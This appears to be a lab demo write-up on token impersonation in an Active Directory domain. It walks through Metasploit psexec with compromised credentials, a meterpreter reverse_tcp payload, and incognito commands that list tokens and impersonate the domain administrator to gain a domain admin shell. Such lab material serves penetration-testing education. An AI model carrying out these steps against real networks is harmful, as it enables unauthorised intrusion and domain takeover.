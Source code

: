 # Token Impersonation Attack LAB DEMO

Token Impersonation is a Post- compromise attack which can be used for lateral movement or domain escalation. This attack scenario will demonstrate how attackers can use these token of privileged users like ADMIN to escalate their domain privileges.
<br>
Imagine we have two machines, one user machine (BATMAN) and one Domain Controller (JUSTICE-DC). and as an attacker we managed to compromise one of the user machines (BATMAN) and now we have local admin privileges. <br>
Now we can perform a Post-compromise enumeration using tools like `Bloodhound` and **identify active sessions of privileged users.**
<br>
Now Imagine a Domain Admin `HERO/Administrator` logged into to `BATMAN`. Since we have a DOMAIN ADMIN session on our compromised computer, we can list the available tokens and use them to impersonate ADMINISTRATOR using a tool called `incognito` from Metasploit.

#### ATTACK METHODOLOGY:

1. First We need to connect to the machine using the `psexec` module using the compromised username and password.

```bash
msfconsole                           #Starts Metasploit
use exploit/windows/smb/psexec       #Loads psexec module
```

2. Then we need to set all the necessary options like RHOST, username password, domain, targets etc.. and run. This will generate a `meterpreter` session.

```
set RHOST "REMOTE HOST IP"
set SMBDomain "TARGET DOMAIN NAME"
set SMBUser "COMPROMISED USER NAME"
set SMBPass "COMPROMISED USER PASSWORD"
set payload /windows/x64/meterpreter/reverse_tcp
```

![[metershell 1.png]]
<br>
3. Now load the `incognito` module using `load incognito` command. This module has commands which lists all the available tokens which can be later used for impersonation.

```bash
load incognito

list_tokens -u
```

![[loadincognoto 1.png]]

4. We have a delegation token for the ADMINISTRATOR. This means that the domain admin of `HERO.local` had logged into `BATMAN` at some point using their credentials. 

5. To take advantage of the this token, we will run the `impersonate_token `command with the domain admin name `HERO\Administrator` to impersonate their account.

```bash
impersonate_token HERO\\Administrator
```

![[Adminshell 1.png]]

Now we have an DOMAIN ADMIN shell session on `BATMAN` machine !!!  Now we can use this session to perform actions that require elevated privileges like making changes to the domain. Adding a new user, adding user to ADMIN group